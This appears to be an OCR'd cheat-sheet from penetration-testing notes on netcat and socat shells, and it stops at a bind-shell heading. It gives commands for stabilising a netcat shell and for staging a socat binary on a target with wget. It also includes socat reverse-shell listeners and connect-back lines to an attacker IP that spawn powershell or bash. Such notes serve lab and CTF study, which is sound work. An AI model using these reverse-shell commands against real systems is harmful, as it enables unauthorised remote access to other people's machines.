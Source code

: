 Syntax to connect:

`nc <TARGET-IP> <PORT>`

### Netcat Shell Stabilisation

#### Python

1. run `python -c 'import pty;pty.spawn("/bin/bash")'` to spawn a better featured shell
2. run `export=TERM=xterm`, giving us access to term commands like `clear`
3. bg the shell using CTRL+Z, run `stty raw -echo; fg` disabling our terminal echo (gives 
us tab autocomplete, arrrow keys and CTRL+C to kill processes) and foregrounding the shell.

#### rlwrap

1. install rlwrap `sudo apt install rlwrap`
2. invoke the listener `rlwrap nc -lnvp <PORT>`
3. if on Linux bg the shell with CTRL+Z and run `stty raw -echo; fg` to stabilise and 
forground the shell.

#### Socat

*limited to Linux targets as Windows shells will remain unstable*

1. transfer a socat static compiled binary using `python3 -m http.server 80` in the dir 
containing the binary
2. run `wget <SERVER-IP>/socat -O /tmp/socat` to download on target machine

Change the size of your reverse/bind shell (use a text editor):

To find size of your terminal run `stty -a` then set rows and columns in reverse/bind shell 
with `stty rows <number>` and `stty cols <number>`

### Socat

#### Reverse shells

Reverse shell listener:

`socat TCP-L:<PORT> -`

Connect back on Windows:

`socat TCP:<ATTACKER-IP>:<PORT> EXEC:powershell.exe,pipes`

*The pipes option forces powershell or cmd to use Unix style standard input and output*

Connect back on Linux:

`socat TCP:<ATTACKER-IP>:<PORT> EXEC:"bash -li"`

*-l makes bash act as if it had been invoked as a login shell, -i makes the shell 
interactive*

#### Bind shells

Socat listener on Linux target:
